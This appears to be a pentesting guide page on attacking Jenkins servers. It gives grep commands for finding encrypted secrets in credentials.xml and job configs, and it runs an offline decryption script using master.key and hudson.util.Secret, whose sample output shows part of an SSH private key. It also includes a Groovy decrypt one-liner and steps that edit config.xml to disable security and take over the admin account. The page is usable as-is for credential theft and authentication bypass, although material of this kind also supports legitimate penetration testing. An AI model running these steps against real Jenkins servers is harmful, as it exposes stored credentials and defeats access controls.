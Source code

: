 These files are needed to **decrypt Jenkins secrets**:

* secrets/master.key
* secrets/hudson.util.Secret

Such **secrets can usually be found in**:

* credentials.xml
* jobs/.../build.xml
* jobs/.../config.xml

Here's a regex to find them:

```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```

#### Decrypt Jenkins secrets offline

If you have dumped the **needed passwords to decrypt the secrets**, use [**this script**](https://github.com/gquere/pwn\_jenkins/blob/master/offline\_decryption/jenkins\_offline\_decrypt.py) **to decrypt those secrets**.

```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```

#### Decrypt Jenkins secrets from Groovy

```bash
println(hudson.util.Secret.decrypt("{...}"))
```

### Create new admin user

1. Access the Jenkins config.xml file in `/var/lib/jenkins/config.xml` or `C:\Program Files (x86)\Jenkis\`
2. Search for the word `<useSecurity>true</useSecurity>`and change the word **`true` ** to **`false`**.
   1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Restart** the **Jenkins** server: `service jenkins restart`
4. Now go to the Jenkins portal again and **Jenkins will not ask any credentials** this time. You navigate to "**Manage Jenkins**" to set the **administrator password again**.
5. **Enable** the **security** again by changing settings to `<useSecurity>true</useSecurity>` and **restart the Jenkins again**.
